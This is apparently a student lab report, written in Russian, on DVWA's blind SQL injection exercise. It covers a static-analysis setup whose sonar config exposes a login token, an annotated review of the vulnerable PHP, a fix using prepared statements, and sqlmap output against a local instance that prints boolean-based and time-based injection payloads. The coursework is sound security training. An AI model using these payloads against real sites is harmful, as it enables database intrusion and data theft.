






# Практическая работа 4
## Необходимо найти участок кода, содержащий инъекцию SQL кода в задании Blind Sql Injection на сайте dvwa.local с использованием статического анализатора кода (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)

Запустил sonar-scanner в папке sql-blind в DVWA репозитории
```bash
sonar.projectKey=blind-sql-injection-practice
sonar.projectName=blind-sql-injection-practice
sonar.projectVersion=1.0
sonar.sources=.
sonar.language=php
sonar.host.url=http://localhost:9000
sonar.login=sqp_6192d3b650155f1eb17d31ececb0029373472fdf
```

### Найденные ошибки




## Проанализировать код и сделать кодревью, указав слабые места
``` php
<?php

    if(isset( $_GET['Submit' ])) {
        /* Уязвимость: пользовательский ввод используется без обработки. */
        $id = $_GET[ 'id' ];

        /* Уязвимость: SQL-инъекция. Переменная `$id` передается напрямую. */
        $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );

        /* Проблема: `@` подавляет ошибки, затрудняя отладку и диагностику. */
        $num = @mysqli_num_rows($result);

        if($num > 0) {
            /* Проблема: возможность XSS, если `$html` выводится напрямую. */
            $html .= '<pre>User ID exists in the database.</pre>';
        }
        else {
            /* Проблема: HTTP 404 применяется для отсутствующих ресурсов, а не для логики приложения. */
            header($_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found');

            /* Проблема: аналогичная возможность XSS. */
            $html .= '<pre>User ID is MISSING from the database.</pre>';
        }

        ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }

?>
```

### Исправленная версия DVWA, которая исключается Blind SQL Injection уязвимости

``` php
<?php

if (isset($_GET['Submit'])) {
    /* Получение введенного пользователем ID */
    $id = $_GET['id'];
    $exists = false;

    /* Подключение к базе данных */
    $connection = $GLOBALS["___mysqli_ston"];
    $query = "SELECT first_name, last_name FROM users WHERE user_id = ?";
    
    /* Используем подготовленный запрос */
    if ($stmt = mysqli_prepare($connection, $query)) {
        /* Привязка параметра */
        mysqli_stmt_bind_param($stmt, 's', $id);

        try {
            mysqli_stmt_execute($stmt);
            mysqli_stmt_store_result($stmt);

            $exists = mysqli_stmt_num_rows($stmt) > 0;
        } catch (Exception $e) {
            print "Произошла ошибка.";
            exit;
        } finally {
            mysqli_stmt_close($stmt);
        }
    }
    ((is_null($___mysqli_res = mysqli_close($connection))) ? false : $___mysqli_res);

    if ($exists) {
        $html .= '<pre>User ID exists in the database.</pre>';
    } else {
        header($_SERVER['SERVER_PROTOCOL'] . ' 404 Not Found');
        
        $html .= '<pre>User ID is MISSING from the database.</pre>';
    }
}
?>
```

### Использовать sqlmap для нахождения уязвимости в веб-ресурсе
> Выполнил проверку с помощью SQLMap CLI с уровнем риска 3 и уровнем глубины проверки 5
>
> В результе проверки sqlmap определил подверженные sql injection параметры - `id`
```bash
DVWA git:(master) ✗ sqlmap -u "http://127.0.0.1:4280/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --batch --risk=3 --level=5 --cookie="PHPSESSID=939a3dbf8d893a151afb25dadd50ddc0; security=low"
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:58:41 /2024-12-01/

[23:58:41] [INFO] resuming back-end DBMS 'mysql' 
[23:58:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 1605=1605 AND 'kWRu'='kWRu&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1430 FROM (SELECT(SLEEP(5)))zraJ) AND 'VjNm'='VjNm&Submit=Submit
---
[23:58:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.4.1, Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:58:41] [INFO] fetched data logged to text files under '/Users/ruslanonly/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 23:58:41 /2024-12-01/
```

### Использовать Burp для нахождения уязвимости в веб-ресурсе

#### Успешное использование Burp Repeater


#### Выполнение ручной SQL Injection с помощью Burp Repeater \', которая приводит к ошибке


#### Выполнение ручной SQL Injection с помощью Burp Repeater \', которая приводит к ошибке


#### Успешное использование Burp Intruder и выполнение ряда sql инъекций после который получилось понять, сколько столбцов имеет таблица users
